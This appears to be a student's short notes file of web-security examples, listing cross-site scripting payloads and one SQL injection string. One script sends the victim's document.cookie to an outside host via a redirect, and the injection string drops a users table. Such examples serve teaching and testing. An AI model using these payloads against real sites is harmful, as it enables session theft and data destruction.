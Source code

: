 # Notes

## XSS examples
<script>alert("hello world");</script>
<script>alert(document.cookie);</script>
<script>window.location = "https://info2180-security-ylynfatt.c9users.io/mybadpage.php?cookie="+document.cookie;</script>

## SQL Injection example
test'; DROP TABLE users;--